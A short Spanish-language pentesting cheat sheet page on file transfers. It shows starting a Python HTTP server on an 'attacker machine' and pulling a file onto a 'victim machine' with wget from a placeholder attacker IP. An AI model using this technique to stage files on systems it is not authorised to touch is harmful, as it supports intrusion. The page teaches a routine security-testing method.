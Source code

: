 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Transferencias de Archivos

**Usando un Servidor HTTP Simple:**

* En la máquina atacante, inicia un servidor HTTP simple:

```bash
python3 -m http.server 8080
```

* En la máquina víctima, utiliza `wget` o `curl` para descargar el archivo:

```bash
wget http://direccion_ip_atacante:8080/archivo.txt
```

* Reemplaza `direccion_ip_atacante` con la dirección IP de la máquina atacante y `archivo.txt` con el nombre del archivo.
